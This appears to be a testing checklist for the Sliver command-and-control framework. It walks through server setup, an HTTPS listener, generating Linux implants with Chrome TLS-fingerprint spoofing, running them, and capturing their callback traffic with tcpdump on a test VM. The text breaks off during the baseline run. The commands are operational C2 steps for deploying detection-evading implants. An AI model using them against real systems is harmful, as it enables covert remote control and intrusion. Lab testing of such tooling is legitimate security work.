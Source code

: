 
## 📋 E2E Testing Checklist (Digital Ocean VM)

### **Phase 1: Server Setup**
```bash
# 1. Copy binaries to VM
scp sliver-server sliver-client user@vm:/opt/sliver/

# 2. Start server
/opt/sliver/sliver-server daemon &

# 3. Generate operator config
/opt/sliver/sliver-server operator --name test --lhost 0.0.0.0 --save test.cfg

# 4. Import config to client
/opt/sliver/sliver-client import test.cfg
```

### **Phase 2: HTTP(S) Listener**
```bash
# Start Sliver console
/opt/sliver/sliver-client console

# Inside console:
sliver > https --lhost 0.0.0.0 --lport 8888
sliver > jobs
```

### **Phase 3: Generate Implants**
```bash
# With TLS fingerprinting (Chrome)
sliver > generate --http <server-ip>:8888 --os linux --arch amd64 \
         --save /tmp/implant_chrome --tls-fingerprint --tls-browser chrome

# Without TLS fingerprinting (baseline)
sliver > generate --http <server-ip>:8888 --os linux --arch amd64 \
         --save /tmp/implant_baseline

# Verify files
sliver > exit
$ ls -lh /tmp/implant_*
```

### **Phase 4: Network Capture**
```bash
# Start tcpdump BEFORE running implant
sudo tcpdump -i any -w /tmp/capture_chrome.pcap port 8888 &
TCPDUMP_PID=$!

# Run implant with TLS fingerprinting
chmod +x /tmp/implant_chrome
/tmp/implant_chrome &

# Wait for callback (30-60 seconds)
# Check Sliver console for session

# Stop capture
sudo kill $TCPDUMP_PID

# Repeat for baseline
sudo tcpdump -i any -w /tmp/capture_baseline.pcap port 8888 &
TCPDUMP_PID=$!
chmod +x /tmp/implant_baseline
```
